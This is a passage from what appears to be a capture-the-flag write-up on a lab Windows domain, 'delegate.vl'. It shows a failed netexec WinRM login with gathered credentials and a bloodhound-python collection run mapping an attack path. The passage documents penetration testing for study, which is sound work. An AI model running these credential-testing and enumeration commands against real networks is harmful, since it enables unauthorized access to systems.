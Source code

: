 <img src="/assets/img/delegate/Untitled 1.png" alt="Untitled 1.png" style="width:800px;">

However, we don’t have PS Remote access to the machine.

```bash
netexec winrm 10.10.74.48 -u A.Briggs -p '<REDACTED>'     
WINRM       10.10.74.48     5985   DC1              [*] Windows Server 2022 Build 20348 (name:DC1) (domain:delegate.vl)
WINRM       10.10.74.48     5985   DC1              [-] delegate.vl\A.Briggs:<REDACTED>
```

# Lateral Movement

Executed [bloodhound-python](https://github.com/dirkjanm/BloodHound.py) with the credentials gathered.

```bash
bloodhound-python -u A.Briggs -p '<REDACTED>' -ns 10.10.74.48 -d delegate.vl -c all
```

Marking ‘A.Briggs’ as owned shows a clear path to achieve a foothold.

<img src="/assets/img/delegate/Untitled 2.png" alt="Untitled 2.png" style="width:800px;">

